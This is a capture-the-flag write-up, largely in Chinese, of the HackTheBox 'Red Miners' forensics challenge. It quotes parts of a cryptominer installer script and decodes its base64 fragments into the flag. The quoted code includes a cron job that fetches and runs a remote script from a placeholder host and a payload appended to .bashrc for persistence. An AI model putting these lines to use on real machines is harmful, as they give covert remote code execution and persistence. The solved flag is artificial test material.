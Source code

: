 # Red Miners

:::note  CHALLENGE DESCRIPTION

Difficulty: VERY EASY

In the race for Vitalium on Mars, the villainous Board of Arodor resorted to desperate measures, needing funds for their mining attempts. They devised a botnet specifically crafted to mine cryptocurrency covertly. We stumbled upon a sample of Arodor's miner's installer on our server. Recognizing the gravity of the situation, we launched a thorough investigation. With you as its leader, you need to unravel the inner workings of the installation mechanism. The discovery served as a turning point, revealing the extent of Arodor's desperation. However, the battle for Vitalium continued, urging us to remain vigilant and adapt our cyber defenses to counter future threats.

在火星上争夺 Vitalium 的竞赛中，邪恶的阿罗多尔董事会采取了孤注一掷的手段，为他们的采矿尝试筹集资金。他们设计了一个专门用于秘密挖掘加密货币的僵尸网络。我们在服务器上偶然发现了阿罗多尔矿工安装程序的一个样本。意识到事态的严重性，我们展开了彻底调查。作为调查的领导者，你需要揭开安装机制的内在运作方式。这一发现成为转折点，揭示了阿罗多尔绝望的程度。然而，争夺 Vitalium 的战斗仍在继续，敦促我们保持警惕，并调整我们的网络防御以应对未来的威胁。

:::

福建提供了一个恶意载荷的部署脚本 `miner_installer.sh`

在其中，基于关键词 `HTB` 抓取关键信息

```bash
echo "ZXhwb3J0IHBhcnQ0PSJfdGgzX3IzZF9wbDRuM3R9Ig==" | base64 -d >> /home/$USER/.bashrc

------

check_if_operation_is_active() {
  local url="http://tossacoin.htb/cGFydDI9Il90aDMxcl93NHkiCg=="

  if curl --silent --head --request GET "$url" | grep "200 OK" >/dev/null; then
    echo "Internet is enabled."
  else
    exit 1
  fi
}

------

crontab -l | sed '/#wget/d' | crontab -
crontab -l | sed '/#curl/d' | crontab -
crontab -l | grep -e "tossacoin.htb" | grep -v grep
if [$? -eq 0]; then
  echo "cron good"
else
  (
    crontab -l 2>/dev/null
    echo '* * * * * $LDR http://tossacoin.htb/ex.sh | sh & echo -n cGFydDE9IkhUQnttMW4xbmciCg==|base64 -d > /dev/null 2>&1'
  ) | crontab -
fi

------

checkExists() {
  CHECK_PATH=$1
  MD5=$2
  sum=$(md5sum $CHECK_PATH | awk '{ print $1}')
  retval=""
  if ["$MD5" = "$sum"]; then
    echo >&2 "$CHECK_PATH is $MD5"
    retval="true"
  else
    echo >&2 "$CHECK_PATH is not $MD5, actual $sum"
    retval="false"
  fi

  dest=$(echo "X3QwX200cnN9Cg=="|base64 -d)
  if [[! -d $dest]];
  then
    mkdir -p "$BIN_PATH/$dest"
  fi
  cp $CHECK_PATH $BIN_PATH/$dest
  echo "$retval"
}
```

找到 Base64 编码后的数据

```plaintext
cGFydDE9IkhUQnttMW4xbmciCg== --> part1="HTB{m1n1ng"
cGFydDI9Il90aDMxcl93NHkiCg== --> part2="_th31r_w4y"
X3QwX200cnN9Cg== --> _t0_m4rs}
ZXhwb3J0IHBhcnQ0PSJfdGgzX3IzZF9wbDRuM3R9Ig== --> export part4="_th3_r3d_pl4n3t}"
```

```plaintext title="Flag"
HTB{m1n1ng_th31r_w4y_t0_m4rs_th3_r3d_pl4n3t}
```
